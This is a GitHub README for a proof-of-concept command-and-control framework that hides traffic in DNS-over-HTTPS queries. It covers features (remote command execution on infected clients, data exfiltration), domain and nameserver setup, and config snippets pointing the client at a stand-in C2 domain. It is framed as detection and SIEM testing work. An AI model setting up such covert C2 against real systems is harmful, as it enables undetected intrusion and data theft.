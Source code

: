 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)
For server side linux

1. **Client Side**
   Python:
        Install Python 3.x from the official website or your package manager.
    Requests Library:
       Install the requests library using pip:
       pip install requests
3. **Server side** only Linux
    Dnslib Library:
    Install the dnslib library using pip
   
    pip install dnslib


4. Register domain 
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/adb40d21-4985-465c-864f-a286b49a2bc1)
Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 4  

if __name__ == "__main__":
    domain_name = "send.example.com"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)




**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/aa582469-afdb-4018-adc6-74f4a23248d6)


Note instaead of the  example.com.co you should see your domain name
Run: python3 doh_server.py

# Architecture TODO
# Detection Tips TODO
